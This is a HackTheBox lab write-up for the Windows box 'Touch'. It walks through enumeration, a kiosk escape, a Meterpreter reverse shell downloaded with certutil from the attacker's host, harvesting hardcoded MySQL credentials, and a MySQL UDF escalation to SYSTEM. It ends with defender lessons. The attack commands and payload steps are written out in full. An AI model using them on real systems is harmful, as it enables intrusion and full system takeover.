



# [Touch](https://app.hackthebox.com/machines/Touch) - HackTheBox Machines Writeup

```
Box       : Touch
OS        : Windows 11
Difficulty: Easy
Target    : 10.129.120.100
Attacker  : 10.10.15.82
```

---

## Attack Path Overview

```
Unauthenticated API  >  Web Dashboard Credentials
        v
RDP + Kiosk Escape   >  cmd.exe as KioskUser
        v
Source Code + ProgramData  >  MySQL root Credentials
        v
MySQL UDF Injection   >  NT AUTHORITY\SYSTEM
```

---

## 1. Reconnaissance

```bash
$ nmap -p- -T4 10.129.120.100

PORT     STATE SERVICE
135/tcp  open  msrpc
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
8443/tcp open  https-alt
```

Here we can see:

- **MSRPC (135)**: the Windows Remote Procedure Call endpoint mapper.
- **RDP (3389)**: the standard remote graphical administration port on Windows.
- **WinRM (5985)**: the standard Windows Remote Management port, used for PowerShell Remoting.
- **https-alt (8443)**: nmap's best guess based on the port number alone, not an actual protocol check.

## 2. Web Enumeration

### 2.1 The Login Page

`http://10.129.120.100:8443` is a login form for a *Nexion DocReader* kiosk (DeviceHub DH-100, Gate B7). It asks for a device password.

The "Forgot your password?" link carries a `title` tooltip:

> *"The default password is the device serial number included in your DeviceHub packaging."*

### 2.2 Directory Enumeration

I want to know if the web application has additional endpoints we can access. For this I used directory enumeration with `gobuster`.

The app issues a `302` redirect to `/login` for every unauthenticated request. Without filtering it out, gobuster aborts immediately, since every path (including non-existent ones) matches the configured "negative" response.

```bash
$ gobuster dir -u http://10.129.120.100:8443 \
  -w /usr/share/wordlists/dirb/common.txt \
  -b 302

/api         (Status: 403)
/favicon.ico (Status: 200)
/login       (Status: 200)
```

Now we know about `/api`. It is actively denying access, which makes it worth enumerating further.

```bash
$ gobuster dir -u http://10.129.120.100:8443/api \
  -w /usr/share/wordlists/dirb/common.txt \
  -b 302

/api/scan    (Status: 405)
/api/status  (Status: 200)
```

Status 200 tells us that we have permission to access the status API.

```bash
$ curl -s http://10.129.120.100:8443/api/status
```

The response is a JSON document containing device metadata including the **serial number**, which is the default login password.

### 2.3 Dashboard



After logging in with the serial number, the dashboard is visible. It displays credentials for two physical kiosk devices:

| Device | Credentials |
|---|---|
| Passport Scanner / Boarding Pass Printer | `KioskUser : K!0sk2026#` |

## 3. Initial Access

### 3.1 RDP + Kiosk Escape

There are two other open ports worth following up on. Let's focus on RDP (3389) first and see if we can get in.

```bash
$ xfreerdp /u:KioskUser /p:'K!0sk2026#' /v:10.129.120.100 /cert:ignore
```

The desktop runs in **kiosk mode**: only the scanner application is visible. No taskbar, no file manager, no shell.



**Escaping the kiosk:**

The kiosk allows workers to log in by scanning a badge. We already have access to the dashboard, so we can deactivate the scanner and use the resulting error to our advantage.

1. In the web dashboard, deactivate the scanner.
2. Trigger a scan by clicking the scan button inside the kiosk. This produces an error in the kiosk UI.
3. The error message contains a clickable link, which opens the system's default browser.
4. Within the browser, press `Ctrl+O` to open a file. Navigate to `C:\Windows\System32\cmd.exe`. This downloads the exe, which can then be opened from the download history.



### 3.2 Meterpreter Reverse Shell

The kiosk `cmd.exe` obtained via the browser escape does not support copy-paste. Let's upgrade our shell access. A Meterpreter session fixes the lack of copy-paste and additionally provides file upload, port forwarding, and process inspection.

**On Kali:**
```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=10.10.15.82 LPORT=4445 -f exe -o shell.exe

$ python3 -m http.server 8000
```

**Start listener:**
```bash
$ msfconsole -q -x "use exploit/multi/handler; \
  set payload windows/x64/meterpreter/reverse_tcp; \
  set LHOST 10.10.15.82; set LPORT 4445; exploit"
```

**On target:**
```cmd
$ certutil -urlcache -split -f http://10.10.15.82:8000/shell.exe shell.exe
$ shell.exe
```

> `certutil` downloads files without triggering most AV heuristics against download tools. It is an example of a LOLBin (Living Off the Land Binary), a legitimate, built-in OS executable that attackers can misuse to carry out malicious actions while looking normal to security tools.

```
meterpreter > sysinfo
Computer  : KIOSK-042
OS        : Windows 11 24H2+ (10.0 Build 26100)
```

## 4. Privilege Escalation - MySQL UDF Injection

### 4.1 Credential Discovery

Let's first look for passwords in the product files.

```cmd
meterpreter > shell
$ findstr /s /i "password" "C:\Program Files\HTB Airways\*.*"
```

The backend database module at `C:\Program Files\HTB Airways\Kiosk\packages\backend\src\database\index.ts` contains a hardcoded fallback credential:

```typescript
const DB_CONFIG_PATH = process.env.DB_CONFIG_PATH
  || "C:\\ProgramData\\HTB Airways\\db-config.ini";

const defaults = {
  host:     "127.0.0.1",
  port:     3306,
  user:     "kiosk_app",
  password: "K!0sk_R3pl1ca#DB",
  database: "htb_airways"
};

function loadConfig() {
  try {
    const ini = fs.readFileSync(DB_CONFIG_PATH, "utf8");
    // parse values from file...
  } catch {
    return defaults; // silently falls back on any read error
  }
}
```

Two problems: the password is committed to source code, and the `catch {}` block silently falls back to the insecure defaults on any error, including permission denied, with no logging or alerting.

`KioskUser` does not have read access to `db-config.ini`, so the application likely uses these defaults at runtime.

The use of `C:\ProgramData\HTB Airways\db-config.ini` brings our attention to the `C:\ProgramData` directory.

`C:\ProgramData` carries the Windows **hidden** attribute and does not appear in a standard `dir C:\` listing. We can address it directly. We only have read access to one file: `C:\ProgramData\refresh-dates.bat`.

```cmd
$ dir "C:\ProgramData"
$ type "C:\ProgramData\HTB Airways\refresh-dates.bat"

...
C:\MySQL\bin\mysql.exe -u root -pHTB@irw4ys_DB!2026 < "C:\ProgramData\HTB Airways\refresh-dates.sql" 2>nul
...
```

**MySQL root credentials: `root : HTB@irw4ys_DB!2026`**

### 4.2 Enumerating MySQL Privileges

The MySQL root password is database-specific and was not reused on the Windows account. Let's see what the MySQL root account can do.

```
# mysql -h 127.0.0.1 -P 3306 -u root -p'HTB@irw4ys_DB!2026'

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| htb_airways        |
| information_schema |
| performance_schema |
+--------------------+

mysql> USE htb_airways;
MySQL [htb_airways]> SELECT user, host, Grant_priv, File_priv FROM mysql.user;
+------------------+-----------+------------+-----------+
| user             | host      | Grant_priv | File_priv |
+------------------+-----------+------------+-----------+
| kiosk_app        | localhost | N          | N         |
| mysql.infoschema | localhost | N          | N         |
| mysql.session    | localhost | N          | N         |
| mysql.sys        | localhost | N          | N         |
| nexion_app       | localhost | N          | N         |
| repl_kiosk_b7    | localhost | N          | N         |
| root             | localhost | Y          | Y         |
+------------------+-----------+------------+-----------+
```

`root` has `File_priv = Y`. Arbitrary DLLs can be loaded as plugins.

In Meterpreter's `ps` output, `mysqld.exe` shows an **empty User column**. This is an indicator that the process runs at a privilege level above the current session.

```
meterpreter > ps
PID   PPID  Name        Arch  User    Path
2428  824   mysqld.exe
```

### 4.3 The Attack

**MySQL User Defined Functions (UDF)** allow loading custom code from a DLL and registering it as a SQL function. When the MySQL service runs as SYSTEM and `root` has `File_priv`, this becomes a direct code execution primitive.

**Step 1: Upload the UDF library:**

Metasploit includes a prebuilt UDF DLL that exposes a `sys_eval()` function:

```
meterpreter > upload \
  /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll \
  "C:\\MySQL\\lib\\plugin\\lib_mysqludf_sys_64.dll"
```

**Step 2: Register the function:**

```cmd
> C:\MySQL\bin\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e "CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys_64.dll';"
```

**Step 3: Execute commands as SYSTEM:**

```cmd
> C:\MySQL\bin\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e "SELECT sys_eval('whoami');"

nt authority\system
```

`sys_eval()` runs as a subprocess of `mysqld.exe`. Since `mysqld.exe` is SYSTEM, every command it spawns is SYSTEM.

**Step 4: Read the root flag:**

```cmd
> C:\MySQL\bin\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e ^
  "SELECT sys_eval('type C:\\Users\\Administrator\\Desktop\\root.txt');"

cc4a1887...
```

## Lessons Learned

**For defenders:**

- **Never run database services as SYSTEM.** A dedicated low-privilege service account limits the blast radius of any MySQL-level compromise to the database, not the entire OS.
- **`File_priv = Y` enables DLL loading.** Remove it from all accounts that do not explicitly require it. It directly enables the UDF attack.
- **Secrets do not belong in source code or batch files.**
- **Kiosk escapes via error dialogs.** Error messages that render hyperlinks, combined with a default browser, bypass application-level shell restrictions.
- **A publicly available serial number was used as the default password.** `/api/status` leaking the device serial number, which should never have been treated as a secret.

**What I learned**

- **MySQL UDF Injection.** This was my first time using this vector.

**Tools I used**

- nmap
- gobuster
- metasploit
